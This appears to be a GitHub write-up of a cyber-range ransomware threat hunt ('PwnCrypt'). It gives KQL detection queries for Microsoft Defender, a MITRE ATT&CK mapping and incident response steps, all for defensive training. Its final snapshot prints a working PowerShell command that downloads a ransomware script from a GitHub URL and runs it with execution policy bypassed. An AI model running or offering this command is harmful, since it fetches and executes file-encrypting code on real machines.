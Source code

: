 ```yaml
---

## **🎯 Incident Response Plan: Zero-Day Ransomware (PwnCrypt) Outbreak**  

![image (11)](https://github.com/user-attachments/assets/abe54490-9d72-416b-8e9c-ac8746484da3)

### **Scenario**  
A new ransomware strain, **PwnCrypt**, has emerged. It utilizes a PowerShell-based payload to encrypt files, appending `.pwncrypt` to filenames (e.g., `hello.txt → hello.pwncrypt.txt`). The payload is downloaded using `Invoke-WebRequest` via PowerShell and targets specific directories like `C:\Users\Public\Desktop`. The CISO has raised concerns, and immediate investigation is required.  
 
## Platforms and Languages Leveraged
- Microsoft Sentinel
- Windows 10 Virtual Machines (Microsoft Azure)
- EDR Platform: Microsoft Defender for Endpoint
- Kusto Query Language (KQL)
---
```


### **1️⃣ Preparation**  
📌 **Goal:** Develop a hypothesis based on threat intelligence and organizational gaps.  
- The organization's immature security program (e.g., no user training) may have allowed ransomware into the network.  
- Use known IoCs, such as `.pwncrypt` file extensions, to guide the investigation.  

🔎 **Hypothesis:** Could PwnCrypt have spread laterally across the network?  

---

### **2️⃣ Data Collection**  
📌 **Goal:** Gather logs and evidence from endpoints, file systems, and network traffic.  

#### 🖥️ **Suspicious PowerShell Command Query:** 
```kql
DeviceFileEvents
| top 20 by Timestamp desc
```
```kql
DeviceNetworkEvents
| top 20 by Timestamp desc
```
```kql
DeviceProcessEvents
| top 20 by Timestamp desc
```

```kql
DeviceProcessEvents
| where ProcessCommandLine has "Invoke-WebRequest" and ProcessCommandLine has "pwncrypt.ps1"
| project Timestamp, DeviceName, InitiatingProcessParentFileName, ProcessCommandLine, AccountName
```
![Screenshot 2025-01-09 112931](https://github.com/user-attachments/assets/726cfa16-8617-410e-9805-c316b01a0606)


#### 🔄 **Trace Ransomware Execution:**  
```kql
DeviceProcessEvents
| where ProcessCommandLine has "C:\\programdata\\pwncrypt.ps1" or FileName == "powershell.exe"
| project Timestamp, DeviceName, InitiatingProcessFileName, ProcessCommandLine, AccountName, InitiatingProcessAccountName
```
![Screenshot 2025-01-09 112245](https://github.com/user-attachments/assets/d657757a-28a1-491e-a246-d94b0f720ea0)

#### 🌐 **Outbound Network Activity:**  
```kql
DeviceNetworkEvents
| where RemoteUrl has "githubusercontent.com"
| project Timestamp, DeviceName, RemoteIP, RemoteUrl, InitiatingProcessCommandLine, AccountName
```
![Screenshot 2025-01-09 114155](https://github.com/user-attachments/assets/3dad1d63-ddbf-4790-a3b4-e8853f253314)

---

### **3️⃣ Data Analysis**  
📌 **Goal:** Examine data for anomalies, patterns, and IoCs.  

🛑 **Indicators Found:**  
- **PowerShell Usage:** Execution of `pwncrypt.ps1` via `Invoke-WebRequest`.  
- **Outbound Traffic:** Connection to GitHub for payload download.  
- **File Events:** Creation of `.pwncrypt` files in user directories.  

🧠 **TTPs Mapped to MITRE ATT&CK Framework:**  
- **T1059.001**: Command and Scripting Interpreter (PowerShell).  
- **T1486**: Data Encrypted for Impact (Ransomware).  
- **T1105**: Ingress Tool Transfer (Downloading payloads).  
- **T1547**: Boot/Logon Autostart Execution (Persistence).  

---

### **4️⃣ Investigation**  
📌 **Goal:** Deep dive into findings and assess the threat's scope.  

#### 🔍 **Steps:**  
1. Check **DeviceFileEvents** for `.pwncrypt` file creation.  
2. Investigate process lineage in **DeviceProcessEvents** to identify the initial infection vector.  
3. Analyze account activity for potential compromise.  

---

### **5️⃣ Response**  
📌 **Goal:** Contain and mitigate confirmed threats.  

#### 🛡️ **Containment:**  
- 🚫 Disconnect affected devices from the network.  
- 🧱 Block known malicious IPs and domains.  

#### 🧹 **Eradication:**  
- Remove `pwncrypt.ps1` and terminate related processes.  
- Scan endpoints for persistence mechanisms (e.g., scheduled tasks).  

#### 🔄 **Recovery:**  
- Restore data from **clean backups**.  
- Verify integrity of restored systems.  

---

### **6️⃣ Documentation**  
📌 **Goal:** Record findings and actions taken.  

🗒️ **What to Document:**  
- Timeline of events.  
- IoCs identified (e.g., `.pwncrypt` files, GitHub URLs).  
- Steps for containment, eradication, and recovery.  
- Gaps in security posture and recommendations for improvement.  

---

### **7️⃣ Improvement**  
📌 **Goal:** Enhance the organization’s defenses against future incidents.  

#### 🚀 **Action Plan:**  
1. Deploy **endpoint protection policies**.  
2. Implement **user training** to identify phishing attempts.  
3. Strengthen **logging and monitoring** to detect suspicious behavior earlier.  

---

### **Ransomware Command Snapshot**  
⚠️ Example of how the ransomware script was executed:  
```powershell
Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/pwncrypt.ps1' -OutFile 'C:\programdata\pwncrypt.ps1';cmd /c powershell.exe -ExecutionPolicy Bypass -File C:\programdata\pwncrypt.ps1
```

📅 **Incident Start Time:**  
- **Date:** Jan 09, 2025  
- **Time:** 9:45 AM  
- **IP:** 185.199.111.133  

---
